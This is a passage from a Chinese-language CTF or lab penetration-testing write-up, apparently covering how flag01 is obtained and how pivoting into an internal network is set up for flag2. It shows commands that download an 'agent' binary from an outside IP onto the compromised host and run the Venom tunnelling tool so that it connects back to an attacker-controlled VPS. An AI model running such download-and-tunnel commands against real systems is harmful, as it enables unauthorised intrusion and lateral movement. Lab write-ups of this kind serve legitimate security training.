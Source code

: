 在用户目录下 cat flag01

[![](assets/1706513339-bed439cb5f76d76c76889c4a46f1406f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231611-2b750a70-bdf0-1.png)

拿到第一个 flag

## flag2

代理出来，这里我们尝试了 frp，但是我得 frp 不可以联动 kali 得

​ 这里我们使 venom

```bash
python2 -m SimpleHTTPServer 7000
```

```bash
wget http://43.143.194.53:7000/agent
```

```bash
chmod 777 agent
```

vps

```bash
./admin -lport 3333
```

内网机

```bash
./agent -rhost 43.143.194.53 -rport 3333
```

[![](assets/1706513339-991e057ec335c6882db4389bfe6932c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231619-30351b04-bdf0-1.png)
